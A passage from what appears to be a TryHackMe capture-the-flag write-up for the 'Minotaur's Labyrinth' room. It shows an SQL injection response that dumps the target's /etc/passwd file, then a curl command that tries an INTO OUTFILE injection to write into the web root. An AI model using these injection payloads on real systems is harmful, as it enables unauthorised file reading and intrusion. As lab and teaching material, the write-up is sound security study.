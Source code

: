 ```
		[[{"idPeople":null,"namePeople":null,"passwordPeople":"root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:\/run\/systemd\/netif:\/usr\/sbin\/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:\/run\/systemd\/resolve:\/usr\/sbin\/nologin\nsyslog:x:102:106::\/home\/syslog:\/usr\/sbin\/nologin\nmessagebus:x:103:107::\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:104:65534::\/nonexistent:\/usr\/sbin\/nologin\nuuidd:x:105:111::\/run\/uuidd:\/usr\/sbin\/nologin\navahi-autoipd:x:106:112:Avahi autoip daemon,,,:\/var\/lib\/avahi-autoipd:\/usr\/sbin\/nologin\nusbmux:x:107:46:usbmux daemon,,,:\/var\/lib\/usbmux:\/usr\/sbin\/nologin\ndnsmasq:x:108:65534:dnsmasq,,,:\/var\/lib\/misc:\/usr\/sbin\/nologin\nrtkit:x:109:114:RealtimeKit,,,:\/proc:\/usr\/sbin\/nologin\ncups-pk-helper:x:110:116:user for cups-pk-helper service,,,:\/home\/cups-pk-helper:\/usr\/sbin\/nologin\nspeech-dispatcher:x:111:29:Speech Dispatcher,,,:\/var\/run\/speech-dispatcher:\/bin\/false\nwhoopsie:x:112:117::\/nonexistent:\/bin\/false\nkernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:\/:\/usr\/sbin\/nologin\nsaned:x:114:119::\/var\/lib\/saned:\/usr\/sbin\/nologin\navahi:x:115:120:Avahi mDNS daemon,,,:\/var\/run\/avahi-daemon:\/usr\/sbin\/nologin\ncolord:x:116:121:colord colour management daemon,,,:\/var\/lib\/colord:\/usr\/sbin\/nologin\nhplip:x:117:7:HPLIP system user,,,:\/var\/run\/hplip:\/bin\/false\ngeoclue:x:118:122::\/var\/lib\/geoclue:\/usr\/sbin\/nologin\npulse:x:119:123:PulseAudio daemon,,,:\/var\/run\/pulse:\/usr\/sbin\/nologin\ngnome-initial-setup:x:120:65534::\/run\/gnome-initial-setup\/:\/bin\/false\ngdm:x:121:125:Gnome Display Manager:\/var\/lib\/gdm3:\/bin\/false\nminotaur:x:1000:1000:minotaur,,,:\/home\/minotaur:\/bin\/bash\nmysql:x:123:128:MySQL Server,,,:\/nonexistent:\/bin\/false\nanonftp:x:1001:1001:,,,:\/home\/anonftp:\/bin\/bash\n"}]]
```

We can!! Then how about **writing to a file**?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/people/search -d "namePeople=' UNION ALL SELECT NULL,NULL,'test' INTO OUTFILE '/var/www/html/test.txt'-- -"
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl http://$RHOSTS/test.txt  

		
		<!DOCTYPE html>
[...]
```

I don't think so... Hmm... Let's go back.

Since we found user `M!n0taur`'s password, and he has the admin permission. Why not try to login as that user?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Minotaur's-Labyrinth/images/a4.png)
